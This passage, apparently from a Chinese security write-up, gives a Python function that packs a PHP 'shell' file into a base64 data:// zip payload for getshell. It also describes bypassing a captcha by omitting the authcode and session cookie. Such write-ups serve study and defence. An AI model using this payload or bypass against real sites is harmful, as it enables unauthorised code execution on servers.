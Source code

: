 上面的利用步骤稍显繁琐，压缩包 payload 的构造直接使用 Python 来实现，做到在减少环境依赖的同时也能开箱即用。

```plain
def get_shell_payload(shell_name="1.php", shell_content="<?php phpinfo();?>"):
    import zipfile
    import base64
    import io
    zip_data = io.BytesIO()

    # 创建一个ZipFile对象，但将其关联到内存中的文件对象
    with zipfile.ZipFile(zip_data, 'w', zipfile.ZIP_DEFLATED, False) as zipf:
        file_contents = shell_content
        zipf.writestr(shell_name, file_contents)

    # 获取内存中的压缩包数据
    zip_data.seek(0)  # 将文件指针移至开头
    zip_binary = zip_data.read()
    # base64
    payload = "data://text/plain;base64,{}".format(base64.b64encode(zip_binary).decode())
    return payload
```

## Py 全自动 GetShell

  作为一个合格的漏洞利用程序，那么它的目标一定是不希望使用者要去进行交互获取到一定信息再填入到程序里面，比如本次的漏洞利用需要第一次的验证码，那么真如上文所述那样真的没有办法么？

让我们仔细看一下负责验证码的代码

[![](assets/1701606448-2045ab58d9ae61e3ad69fcef6d3e44ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203413-6fe8bc46-8dea-1.png)

`$_SESSION` 这个变量跟`Cookie:PHPSESSID`有关，所以思路很简单，同时去掉`authcode`和`session`，让他们的值都为`NULL`就可以绕过验证码了

[![](assets/1701606448-81f2df1ccfb2cdb6eb5143e9343a5418.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203418-730a69d8-8dea-1.png)
